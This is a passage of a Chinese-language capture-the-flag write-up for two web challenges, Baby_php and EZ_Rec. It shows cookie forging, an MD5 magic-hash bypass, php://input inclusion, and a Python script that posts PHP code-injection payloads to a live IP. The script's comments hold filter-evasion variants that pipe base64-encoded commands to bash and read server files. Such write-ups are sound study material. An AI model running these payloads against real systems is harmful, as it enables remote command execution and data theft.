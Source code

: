Postman 传入参数，得到 flag

### Baby_php

1. 根据hint 和题目源码，首先构造通过Brup 构造cookie 即 访问 `http://101.36.122.23:7135/?username=admiN`  然后将cookie中 username=`YWRtaW4%3d   `,等号改为%3d

2. 进入下一环节，

   `http://101.36.122.23:7135/admmmmin.php?%6dd51=QNKCDZO&%6dd52=240610708&%6castsward&file=php://input`

   构造md5  url编码绕过

3. 最后一个环节， 执行 \$a , \$b,$c  百度搜索， system(commond,[..]) ， 执行命令找到flag

### EZ_Rec

开始.swp发现index的漏洞，根据vim -r 打开文件，发现源码，接下来就是构造一系列payload的过程

```python
import requests
import re
import base64
url = 'http://120.79.25.56:5599/index.php'


Headers ={
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'zh-CN,zh;q=0.9',
}
#$_POST["s'h'ana"}
#$_POST["s\hana"]
#$a=str_replace(x,'''',''axsxxsxexrxxt")$a($_POST['shezhang']);
# JF9QT1NUWydzaGFuYSdd | base64
#assert(phpinfo())
#base64.chr(95).deco\de("JF9QT1NUWydzaGFuYSddOzs7")
#c\\at /var/www/html/index.p\\hp > a.txt
#YT1gY2F0IGluZGV4LnBocGA7ZWNobyAkYSB8YmFzZTY0 | base64 -d|bas\h
#'system("echo YT1gY2F0IGluZGV4LnBocGA7ZWNobyAkYSB8YmFzZTY0 | base64 -d|bas\\h")?>'
#order = "find / -name flag;"
#order = str(base64.b64encode(order.encode('utf-8')),'utf-8')
#print(order)
#shana = 'system("echo '+order+'| base64 -d |bas\\h")?>'
#print(shana)
data ={'shana':"system('tail  /usr/src/flllaaag |base64')?>"}

    #print(data['shana'].find('JUST{',0))
r = requests.post(url, data = data, headers = Headers)
print(r.text[:1000])
```
